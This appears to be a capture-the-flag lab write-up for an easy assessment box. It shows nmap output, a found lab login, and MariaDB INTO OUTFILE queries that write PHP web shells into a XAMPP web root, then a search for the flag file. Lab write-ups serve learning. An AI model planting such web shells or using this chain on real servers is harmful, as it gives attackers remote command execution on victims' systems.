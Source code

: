 # Assessment Easy

<figure><img src="../../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

```
nmap 10.129.203.7 -p 21,25,80,443,587,3306,2289 -sC -sV -oN 10.129.203.7
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-29 03:57 EDT
Nmap scan report for 10.129.203.7
Host is up (0.19s latency).

PORT     STATE    SERVICE     VERSION
21/tcp   open     ftp
|_ssl-date: 2023-06-29T07:59:27+00:00; +1s from scanner time.
| fingerprint-strings: 
|   GenericLines: 
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|     Command unknown, not supported or not allowed...
|     Command unknown, not supported or not allowed...
|   Help: 
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|     214-The following commands are implemented
|     USER PASS ACCT QUIT PORT RETR
|     STOR DELE RNFR PWD CWD CDUP
|     NOOP TYPE MODE STRU
|     LIST NLST HELP FEAT UTF8 PASV
|     MDTM REST PBSZ PROT OPTS CCC
|     XCRC SIZE MFMT CLNT ABORT
|     HELP command successful
|   NULL: 
|_    220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
| ssl-cert: Subject: commonName=Test/organizationName=Testing/stateOrProvinceName=FL/countryName=US
| Not valid before: 2022-04-21T19:27:17
|_Not valid after:  2032-04-18T19:27:17
25/tcp   open     smtp        hMailServer smtpd
| smtp-commands: WIN-EASY, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp   open     http        Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/7.4.29)
| http-title: Welcome to XAMPP
|_Requested resource was http://10.129.203.7/dashboard/
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/7.4.29
443/tcp  open     https       Core FTP HTTPS Server
|_http-server-header: Core FTP HTTPS Server
|_ssl-date: 2023-06-29T07:59:27+00:00; +1s from scanner time.
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=Test/organizationName=Testing/stateOrProvinceName=FL/countryName=US
| Not valid before: 2022-04-21T19:27:17
|_Not valid after:  2032-04-18T19:27:17
587/tcp  open     smtp        hMailServer smtpd
| smtp-commands: WIN-EASY, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
2289/tcp filtered dict-lookup
3306/tcp open     mysql       MySQL 5.5.5-10.4.24-MariaDB
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.24-MariaDB
|   Thread ID: 10
|   Capabilities flags: 63486
|   Some Capabilities: ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, Support41Auth, LongColumnFlag, Speaks41ProtocolNew, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, IgnoreSigpipes, FoundRows, SupportsCompression, SupportsTransactions, SupportsLoadDataLocal, ODBCClient, InteractiveClient, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: [Rh4j;&L.>.jKy@o3LgA
|_  Auth Plugin Name: mysql_native_password
```

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption><p>fiona@inlanefreight.htb</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption><p>fiona@inlanefreight.htb:987654321</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

```
MariaDB [phpmyadmin]> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:/xampp/htdocs/dashboard/webshell.php';
Query OK, 1 row affected (0.190 sec)
```



```
MariaDB [(none)]> SELECT "<?php if(isset($_REQUEST['cmd'])){ echo '<pre>'; $cmd = ($_REQUEST['cmd']); system($cmd); echo '</pre>'; die; }?>" INTO OUTFILE 'C:/xampp/htdocs/dashboard/webshell2.php';
Query OK, 1 row affected (0.190 sec)
```

<figure><img src="../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

```
dir /s /b C:\flag.txt
```

then type the flag file and get the flag.

